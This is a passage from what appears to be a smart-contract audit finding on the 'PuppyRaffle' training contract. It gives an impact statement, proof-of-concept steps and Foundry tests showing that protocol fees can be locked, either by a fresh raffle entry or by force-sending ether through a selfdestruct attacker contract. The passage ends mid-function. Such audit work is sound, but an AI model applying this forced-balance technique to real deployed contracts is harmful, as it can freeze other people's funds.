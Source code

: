 **Impact:** Protocol fees may be locked in the contract indefinitely.

**Proof of Concept:** 

1. Players enter the raffle
2. Winner is drawn
3. Player enters the raffle immediately before fees are withdrawn or uses `selfdestruct` to manipulate the contract balance
4. Protocol owner is not able to withdraw fees

<details><summary>Code</summary>

Place following code into your test suite:

```solidity
    function testCannotWithdrawFees() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        uint256 expectedPrizeAmount = ((entranceFee * 4) * 20) / 100;

        puppyRaffle.selectWinner();

        address[] memory new_players = new address[](1);
        new_players[0] = playerOne;
        puppyRaffle.enterRaffle{value: entranceFee}(new_players);

        vm.expectRevert(bytes("PuppyRaffle: There are currently players active!"));
        puppyRaffle.withdrawFees();
    }
```

and the following code:

```solidity
    function testSelfDestruct() public {
        uint256 numPlayers = 5; // 5x to hit max with 20 %
        address[] memory players = new address[](numPlayers);

        for (uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }

        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);

        vm.warp(block.timestamp + puppyRaffle.raffleDuration() + 1);
        puppyRaffle.selectWinner();

        // create attacker contract
        SelfDestructAttacker attackerContract = new SelfDestructAttacker(address(puppyRaffle));

        // fund contract
        deal(address(attackerContract), 1 ether);

        // attack
        attackerContract.attack();

        // withdrawing fees impossible
        vm.expectRevert();
        puppyRaffle.withdrawFees();
```